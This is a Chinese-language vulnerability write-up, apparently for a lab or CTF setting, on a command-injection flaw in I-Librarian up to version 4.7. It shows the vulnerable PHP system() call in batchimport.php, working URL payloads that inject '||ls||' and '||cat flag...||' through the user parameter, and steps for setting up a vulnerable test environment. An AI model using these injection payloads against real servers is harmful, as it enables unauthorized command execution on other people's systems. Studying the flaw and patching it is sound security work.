

# <center>I-Librarian-4.6-CI</center> #

<center></center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于I-Librarian在某处没有对参数过滤严格，导致命令执行漏洞。
* 影响版本： 小于等于4.7

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;I-Librarian是在线PDF文件管理和组织工具，可以让你的pdf文件集中管理。

&emsp;&emsp;该漏洞主要的产生原因是未做严格的过滤。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先我们看一下如何利用这个漏洞，打开ip:port  

<center></center>


&emsp;&emsp;这里注册一个用户`qqqqqqqq`密码`qqqqqqqq`，然后再登录该用户。  

<center></center>


访问`ip:port/batchimport.php?directory=.&commence=123&user="||ls||"`会发现执行了`ls`命令：

<center></center>


访问 `"http://ip:port/batchimport.php?directory=.&commence=123&user="||cat flag4tregyjo8ikuwefd6ythrbfqwd.php||"`再右键查看源代码得到flag值。

<center></center>

### 源码解析
定位到batchimport.php文件的system函数处:

```php

system(select_pdftotext() . ' -enc UTF-8 -f 1 -l 3 "' . $file . '" "' .
$temp_file . '"');

```

可以看见几个参数，我们打印system里面的所有参数，如下：

`"pdftotext" -enc UTF-8 -f 1 -l 3 "./test.pdf""/var/tmp/i-librarian/98fb
c74409ad6afc0d4920b3b0e75a53/"||ls||"_librarian_temp1.txt"`


同时可以看出所有变量各自的值，变量其实为了让逻辑能够到达system函数。将该参数拿到linux的terminal下面执行得到如下效果：

<center></center>  


## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本系统[github](https://github.com/havysec/vulnerable-scene)  

### 4.2&emsp;安装环境和导入数据库 ###

* 在Linux下直接安装Apache+php5+php5-sqlite环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，访问首页即可。


### 4.3&emsp;漏洞复现（CI） ###

如上

## 5.&emsp;修复意见 ##

&emsp;&emsp;添加过滤函数  
